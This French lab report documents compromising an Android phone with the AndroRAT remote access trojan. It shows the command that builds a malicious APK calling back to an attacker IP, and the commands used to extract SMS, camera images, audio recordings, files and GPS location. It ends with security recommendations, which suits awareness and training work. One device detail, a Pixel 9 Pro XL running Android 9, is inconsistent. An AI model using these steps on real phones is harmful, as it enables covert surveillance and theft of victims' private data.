



# Rapport d'Attaque avec AndroRAT

## 📌 Informations Générales
- **Date de l'attaque** : 23/01/2025
- **Système cible** : Android
- **Modèle du téléphone** : Pixel 9 Pro XL
- **Version Android** : Pie android 9.0
- **Adresse IP de l'attaquant** : 10.3.219.27
- **Adresse IP de la victime** : 192.168.232.2

---

## 🎯 Objectif de l'attaque
L'objectif de cette attaque était de tester la compromission d'un appareil Android à l'aide de **AndroRAT**, un Remote Access Trojan (RAT) permettant d'obtenir un contrôle total sur l'appareil cible.

---

## 🛠️ Méthodologie
### 1️⃣ Génération de l'APK Malveillant
Commande utilisée :
```
python3 androRAT.py --build -i 10.3.219.27 -p 4444 test1.apk
```

### 2️⃣ Installation et Exécution de l'APK
- L'APK a été transférée et installée sur le téléphone cible via un serveur HTTP.
- Une fois lancée, l'application a établi une connexion avec la machine attaquante.

### 3️⃣ Prise de Contrôle et Extraction des Données
Une fois connecté, les commandes suivantes ont été exécutées :

#### 📩 Accès aux Messages SMS
```
getSMS sent
getSMS inbox
```
- Extraction et affichage de tous les SMS stockés sur l’appareil.



#### 📷 Accès à la Caméra
```
camList

takepic 0
takepic 1
```
- Capture d'images via la caméra avant/arrière.


#### 🎙️ Enregistrement Audio
```
startAudio
stopAudio
```
- Activation du microphone et enregistrement audio.



#### 📂 Accès aux Fichiers Stockés
```bash
file list /sdcard
```
- Exploration des fichiers enregistrés sur l’appareil.

#### 📍 Géolocalisation de l’Appareil
```
getLocation
```
- Récupération des coordonnées GPS en temps réel.


---

## 📝 Résultats de l'Attaque
| Fonctionnalité | Résultat |
|--------------|---------|
| Accès aux SMS | ✅ Succès |
| Accès à la caméra | ✅ Succès (Images capturées) |
| Enregistrement audio | ✅ Succès (Fichier audio enregistré) |
| Accès aux fichiers | ✅ Succès (Exploration et extraction) |
| Géolocalisation | ✅ Succès (Coordonnées GPS obtenues) |

---

## 🔍 Analyse des Vulnérabilités Exploitées
1. **Installation d'une application non vérifiée** : L'utilisateur a installé un APK sans contrôle de source.
2. **Manque de protection des permissions** : L’application malveillante a pu accéder librement aux fonctionnalités sensibles.
3. **Absence d’un antivirus** : Aucun mécanisme de détection n’a empêché l’exécution de l’APK.

---
## 🔐 Recommandations de Sécurité
- **Ne pas installer d’APK provenant de sources inconnues.**
- **Restreindre les permissions des applications non fiables.**
- **Utiliser un antivirus pour analyser les applications avant installation.**
- **Garder Android et les applications à jour pour corriger les vulnérabilités.**
- **Activer Google Play Protect pour détecter les comportements suspects.**

---

## 📌 Conclusion
L'utilisation de **AndroRAT** a permis de démontrer la facilité avec laquelle un appareil Android peut être compromis si l'utilisateur ne suit pas les bonnes pratiques de sécurité. Ce test souligne l'importance d'une sensibilisation accrue aux cybermenaces sur mobile.


